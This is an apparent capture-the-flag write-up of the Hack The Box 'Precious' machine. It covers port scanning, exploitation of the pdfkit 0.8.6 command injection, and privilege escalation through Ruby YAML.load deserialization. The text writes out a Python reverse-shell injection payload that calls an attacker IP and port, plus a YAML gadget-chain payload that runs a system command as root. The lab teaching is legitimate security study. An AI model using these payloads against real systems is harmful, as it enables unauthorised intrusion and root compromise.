  ![image](https://user-images.githubusercontent.com/87700008/205619578-28e109d5-9ede-4b75-95c0-fb74bc635c26.png)

https://app.hackthebox.com/machines/Precious

## **Enumeration**:

#### _Rustscan_:

Started with a qucik Rustscan, found 3 open ports :

![image](https://user-images.githubusercontent.com/87700008/205620631-e8bad937-e8da-432e-b776-fab52239c64b.png)


    sudo rustscan -a 10.10.11.189 -- -A -T4 -vv -oN precious_nmap
    
    Open 10.10.11.189:22
    Open 10.10.11.189:80
    Open 10.10.11.189:8000
    
In the scan results there is a domain observed, i.e. http://precious.htb/

![image](https://user-images.githubusercontent.com/87700008/205621054-4212556d-c02c-4eeb-b170-41b379915db7.png)

So, to consolidate all results:

    On ports 80, nginx/1.18.0 is running
    On port 8000, SimpleHTTPServer 0.6 (Python 3.9.2) is running
    
Added the domain to the /etc/hosts file. After adding the domain browsed through that domain & found there is a website running to convert web page to PDF.
![image](https://user-images.githubusercontent.com/87700008/205623888-22706343-617f-434a-aec1-f55a1e35af90.png)

#### _Gobuster:_

Scanned the subdomain & vhost using gobuster but nothing found in both the scans:

![image](https://user-images.githubusercontent.com/87700008/205679805-8aa80909-6b18-4a91-ad67-c7b4896bae5d.png)
![image](https://user-images.githubusercontent.com/87700008/205679904-2647b99f-613f-4905-b878-5c9a297929c6.png)

As I didn't get any result from the gobuster scanning I tried some manual enumertaion & checked for the html source but nothing found there are well.😕

Then I thought to play with the webpage & started my own SimpleHttpServer on port 80 & in the parameter part I gave my own http server IP & clicked on submit.
Then the page redirected me to the PDF page of my directory :

![image](https://user-images.githubusercontent.com/87700008/205709502-88986f4c-3997-4ca4-a08c-ce4d9972df65.png)
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------

## **Initial access:**

I downloaded the file from the page & checked for the metadata where I found the creator as "Generated by pdfkit v0.8.6":
![image](https://user-images.githubusercontent.com/87700008/205710041-713e2058-ed8f-45d4-9302-dd02e32798b1.png)
![image](https://user-images.githubusercontent.com/87700008/205710140-e3420cfd-24ae-443f-891b-4ca04621ff29.png)

I quickly searched for the exploit of "pdfkit 0.8.6" & landed on the page of an article with the PoC pubished by snyk mentioning the command injection vulnerability in the versions lower than 0.8.7, ref : https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795
![image](https://user-images.githubusercontent.com/87700008/205710574-556b8712-4458-49f9-94fc-d3af74763033.png)

So as per the article I tried the exploit from myself in this webpage & it's working :

![image](https://user-images.githubusercontent.com/87700008/205711050-746a9e5b-fbff-470e-a021-0cde0a578a0f.png)
![image](https://user-images.githubusercontent.com/87700008/205711105-ae626667-8af6-4d4e-8b58-cfb0d1506e9b.png)
 
 At this point we are confirmed that the page is vulnerbale to the command injection vulnerability.

 I tried different payload here for reverse shell & python3 payload worked for me :
 
    http://IP/?name='%20`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

And I received the reverse shell :

![image](https://user-images.githubusercontent.com/87700008/205716608-5fa1a95c-a9ef-4fe5-91ba-37f75d7e0828.png)

Stablized the reverse shell:

    python3 -c 'import pty;pty.spawn("/bin/bash")'
    export term=XTERM
    stty raw -echo; fg 
    
After searching many directories I found a directory located in ruby user folder name : '.bundle' in which I found another user 'henry' credentials:

![image](https://user-images.githubusercontent.com/87700008/205719193-a3d77efd-1d3e-402f-af69-3cfbdcf03a2e.png)

#### _User flag_ :

Using those credentials I quickly tried SSH & logged in successfully & retrieved the user flag 🙂(pwn3d!)

![image](https://user-images.githubusercontent.com/87700008/205719767-ab5f9b34-0345-4c98-a65e-9659b8be91d9.png)
![image](https://user-images.githubusercontent.com/87700008/205719911-4e5caa98-3a16-49f9-ac23-0d8f0b7780c9.png)

---------------------------------------------------------------------------------------------------------------------------------------------------------------------------

## **Priv Esc:**

Now, as always I started with the manual enumeration & ran 'sudo -l', I got this :

    User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
    
Then I checked for the file content present in '/opt/update_dependencies.rb'. I am confused here at this point as there isn't anything present here whhich looks much helpful. 
Then with lot of searching I found a blog where it's mentioned some flaw in "Yaml.load" parameter which is also available in our file :

![image](https://user-images.githubusercontent.com/87700008/205723673-9d35da55-4701-4d33-be5b-50899f708684.png)
ref : https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/

This is vulnerable to "Yaml deserialization" attack:
![image](https://user-images.githubusercontent.com/87700008/205724218-37fec72d-5e49-40c9-b2d6-b6e56816cb6b.png)

I also found a PoC, ref : https://gist.github.com/staaldraad/89dffe369e1454eedd3306edc8a7e565#file-ruby_yaml_load_sploit2-yaml
So, I created a file name 'dependencies.yml' & used this code taken from the PoC :

    - !ruby/object:Gem::Installer
    i: x
    - !ruby/object:Gem::SpecFetcher
    i: y
    - !ruby/object:Gem::Requirement
    requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "chmod 4777"
         method_id: :resolve

#### _Root flag:_

And, ran the command :

    sudo /usr/bin/ruby /opt/update_dependencies.rb
    /bin/bash -p
    
This provided us the bash shell with root access 🙂(pwn3d!)

![image](https://user-images.githubusercontent.com/87700008/205726452-39f4a812-6e1c-41b0-b8db-f4b09089985f.png)
